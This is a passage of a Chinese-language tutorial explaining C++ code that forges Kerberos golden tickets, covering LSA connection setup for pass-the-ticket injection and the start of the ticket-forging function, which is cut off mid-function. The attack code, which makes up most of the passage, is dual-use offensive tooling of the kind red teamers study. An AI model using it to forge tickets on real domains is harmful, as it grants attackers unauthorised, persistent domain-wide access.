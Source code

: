 ```c++
	if (!KerberosGolden(lpUser, lpDomain, lpService, lpTarget, lpKey, dwKeyType, lpSid, isPtt))
	{
		wprintf(L"[-] Failed.\n");
		return -1;
	}

	KerberosClean();
}
```

之后通过 `KerberosInit()` 函数进行 Kerberos 身份验证包的一些初始化工作。

## Kerberos Init

`KerberosInit()` 函数定义如下，该函数主要 `LsaConnectUntrusted()` 函数与 LSA 服务器建立不受信任的连接，然后通过 `LsaLookupAuthenticationPackage()` 函数获取 Kerberos 身份验证包的唯一标识符并保存到 `AuthenticationPackage` 变量中。

```c++
LSA_STRING KerberosPackageName = { 8, 9, (PCHAR)MICROSOFT_KERBEROS_NAME_A };
ULONG	AuthenticationPackage = 0;
BOOL	isAuthPackageKerberos = FALSE;
HANDLE	hLSA = NULL;

BOOL KerberosInit()
{
	BOOL status = FALSE;
	// Open LSA policy handle
	status = NT_SUCCESS(LsaConnectUntrusted(&hLSA));
	if (status)
	{
		// Lookup authentication package ID
		status = NT_SUCCESS(LsaLookupAuthenticationPackage(hLSA, &KerberosPackageName, &AuthenticationPackage));
		isAuthPackageKerberos = status;
	}
	return status;
}
```

这里主要是为了后续伪造黄金票据后，通过 LsaCallAuthenticationPackage API 将伪造的票据提交到内存中，暂时用不到。

接下来将调用 `KerberosGolden()` 函数，执行票据伪造的过程，该函数定义如下。

```c++
BOOL KerberosGolden(LPCWSTR lpUser, LPCWSTR lpDomain, LPCWSTR lpService, LPCWSTR lpTarget, LPCWSTR lpKey, LONG dwKeyType, LPCWSTR lpSid, BOOL isPtt)
{
	BOOL status = FALSE;
	BYTE Key[AES_256_KEY_LENGTH] = { 0 };
	PWCHAR netbiosDomain = NULL;
	PISID pSid = NULL;
	PBERVAL BerAppKrbCred = NULL;
	KERBEROS_LIFETIME_DATA lifeTimeData;
	PKERB_ECRYPT pCSystem;
	
    // Intercept the NetBIOS Domain through the Domain provided by the user.
    // For example, get pentest via pentest.com.
	if (LPCWSTR baseDot = wcschr(lpDomain, L'.'))
	{
		DWORD i = (DWORD)((PBYTE)baseDot - (PBYTE)lpDomain);
		if (netbiosDomain = (PWCHAR)LocalAlloc(LPTR, i + sizeof(wchar_t)))
			for (DWORD j = 0; j < i / sizeof(wchar_t); j++)
				netbiosDomain[j] = towupper(lpDomain[j]);
	}
	// Find the encryption system of the dwKeyType type through the 
    // CDLocateCSystem function and store it in the pCSystem structure.
```